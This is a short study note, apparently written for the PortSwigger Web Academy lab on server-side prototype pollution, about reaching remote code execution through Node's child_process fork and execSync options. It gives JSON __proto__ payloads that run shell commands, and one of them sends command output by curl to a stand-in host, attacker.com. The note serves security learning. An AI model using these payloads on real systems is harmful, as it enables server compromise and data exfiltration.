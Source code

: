 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/rce-via-methods/"}
---
```



---

Methods such as `child_process.spawn()` and `child_process.fork()` enable developers to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the `execArgv` property.

As this gadget lets you directly control the command-line arguments, this gives you access to some attack vectors that wouldn't be possible using `NODE_OPTIONS`. Of particular interest is the `--eval` argument, which enables you to pass in arbitrary JavaScript that will be executed by the `child_process`.

```json
"execArgv": [ 
	="--eval=require('<module>')"= 
]
```

In addition to `fork()`, the `child_process` module contains the `execSync()` method, which executes an arbitrary string as a system command. By chaining these JavaScript and command injection sinks, we can probably gain full RCE capability on the server.

---

`execSync()` can take an options object, which includes properties like:

- `shell` , can be used to call `/bin/sh`
- `input` , sends data to the `stdin` of the child process

If both of these are left **undefined**. It can be vulnerable to Prototype Pollution. Besides that, here is an example of using `vim` as a shell

```json
{
  "__proto__": {
    "shell": "vim",
    "input": ":! whoami\n"
  }
}
```


---

Some workarounds if `stdin` is not read properly.

1. **`xargs` (converts `stdin`  to arguments)**

```json
{
  "__proto__": {
    "shell": "/bin/sh",
    "input": "id | xargs\n"
  }
}
```

2. **Using `curl` with stdin (`-d @-`**

```json
{
  "__proto__": {
    "shell": "/bin/sh",
    "input": "curl -d @- http://attacker.com\n"
  }
}
```